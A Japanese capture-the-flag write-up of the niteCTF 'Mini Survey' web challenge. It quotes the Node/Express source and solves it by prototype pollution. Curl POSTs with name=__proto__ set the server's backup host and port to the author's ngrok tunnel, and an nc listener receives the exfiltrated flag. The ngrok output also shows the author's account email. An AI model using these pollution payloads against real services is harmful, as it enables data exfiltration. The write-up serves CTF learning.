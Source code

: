 # Mini Survey:web:480pts
Please answer this survey for the better of all  
\- Minnesota Dept of Roads & Railways  
[http://mini-survey.web.nitectf.live/](http://mini-survey.web.nitectf.live/)  

[miniSurvery_updated_2.zip](miniSurvery_updated_2.zip)  

# Solution
URLとソースが与えられる。  
URLにアクセスすると、道路状況のアンケートを送信できる。  
![site1.png](site/site1.png)  
![site2.png](site/site2.png)  
![site3.png](site/site3.png)  
ソースを見るとindex.jsの主要部分は以下のようであった。  
```js
const express = require("express");
const updateDBs = require("./serverComs");
~~~
app.set("view engine", "ejs");
app.use(express.urlencoded({ extended: true }));

//add initial data as headers to convert to csv
let surveyOneInitialData = { Name: { City: "Rating" } };
let surveyTwoInitialData = { Name: { City: { Rating: "Reasons" } } };

~~~

app.post("/roadqualsurvey", (req, res) => {
    console.log(23);
    const fieldInput1 = req.body.name;
    const fieldInput2 = req.body.city;
    const fieldInput3 = req.body.roadRate;
    const fieldInput4 = req.body.reasons;

    let reasons = fieldInput4.split(",");

    surveyTwoInitialData[fieldInput1] = {
        [fieldInput2]: { [fieldInput3]: reasons },
    };

    console.log(surveyTwoInitialData);

    test = Object.create(surveyTwoInitialData);
    console.log(test.url);

    surveyTwoInitialData = updateDBs(surveyTwoInitialData, {
        Name: { City: { Rating: "Reasons" } },
    });

    res.redirect("/thankyou");
});

app.post("/pollutionsurvey", (req, res) => {
    let fieldInput1 = req.body.name;
    let fieldInput2 = req.body.city;
    let fieldInput3 = req.body.pollutionRate;

    surveyOneInitialData[fieldInput1] = { [fieldInput2]: fieldInput3 };

    surveyOneInitialData = updateDBs(surveyOneInitialData, {
        Name: { City: "Rating" },
    });

    res.redirect("/thankyou");
});
~~~
```
serverComs.jsは以下のようであった。  
```js
const net = require("net");

backupServerHost = "";
backupServerPort = "";

function sendData(data) {
    const postData = JSON.stringify(data);

    if (data.host != undefined) {
        backupServerHost = data.host;
    }

    if (data.port != undefined) {
        backupServerPort = data.port;
    }

    const options = {
        host: backupServerHost || "localhost",
        port: backupServerPort || "8888",
    };

    if (
        typeof options.host === "string" &&
        options.host.endsWith(".ngrok.io")
    ) {
        const socket = net.connect(options, () => {
            socket.write(postData);
            socket.end();
        });

        socket.on("error", (err) => {
            console.error("Error", err.message);
        });
    }
}

function updateDBs(dataObj, original) {
    let commData = Object.create(dataObj);
    commData["flag"] = "nite{FAKE_FAKE_FAKE_FLAG}";
    commData["log"] = "new entry added";
    sendData(commData);
    return original;
}

module.exports = updateDBs;
```
`updateDBs`に渡ったデータに`host`、`port`が存在すれば、そこにフラグを送っている。  
なければ`localhost`の`8888`になるようだ。  
フロントからそれらを設定するものはないように見える。  
ここで`surveyOneInitialData[fieldInput1] = { [fieldInput2]: fieldInput3 };`の怪しさに気づく。  
`__proto__`経由で、任意の項目を汚染できる。  
`host`と`port`を自身の受信サーバに差し替えればよい(`options.host.endsWith(".ngrok.io")`に注意)。  
受信サーバ側を以下のように準備する。  
```bash
$ nc -lvnp 8888
Listening on 0.0.0.0 8888
```
```bash
$ ngrok tcp 8888
~~~
Session Status                online
Account                       t.satoki111@gmail.com (Plan: Free)
Update                        update available (version 3.5.0, Ctrl-U to update)
Version                       3.3.5
Region                        United States (California) (us-cal-1)
Latency                       -
Web Interface                 http://127.0.0.1:4040
Forwarding                    tcp://6.tcp.us-cal-1.ngrok.io:12576 -> localhost:8888
~~~
```
リクエストを以下のように送る。  
```bash
$ curl -X POST 'http://mini-survey.web.nitectf.live/pollutionsurvey' --data "name=__proto__&city=host&pollutionRate=6.tcp.us-cal-1.ngrok.io"
Found. Redirecting to /thankyou
$ curl -X POST 'http://mini-survey.web.nitectf.live/pollutionsurvey' --data "name=__proto__&city=port&pollutionRate=12576"
Found. Redirecting to /thankyou
```
先ほどの受信サーバ側に以下のようなリクエストが到達する。  
```bash
$ nc -lvnp 8888
Listening on 0.0.0.0 8888
Connection received on 127.0.0.1 43088
{"flag":"nite{pr0t0_p0llut3d_116a4601b79d6b8f}","log":"new entry added"}
```
flagが得られた。  

## nite{pr0t0_p0llut3d_116a4601b79d6b8f}